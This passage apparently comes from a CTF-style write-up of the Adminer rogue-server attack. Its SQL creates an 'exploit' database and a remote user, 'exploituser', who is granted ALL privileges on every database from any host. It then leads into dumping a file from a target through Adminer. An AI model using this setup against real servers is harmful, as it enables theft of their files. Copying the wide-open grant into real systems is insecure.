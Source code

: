 Create our database for adminer to connect to.

```sql
CREATE DATABASE exploit;
```

Create a user so that we can connect from Adminer.

```sql
CREATE USER 'exploituser'@'%' IDENTIFIED BY 'exploitpass';
```

Give the user privileges to connect remotely.

```sql
GRANT ALL ON *.* TO 'exploituser'@'%';
```

Nearly there, just need to flush privileges.

```sql
FLUSH PRIVILEGES;
```

And then restart the mysql service.

```bash
sudo service mysql restart
```

## Dumping a file from Adminer

Then we can connect to our database from Adminer.

![database_connect](images/database_connect.png)
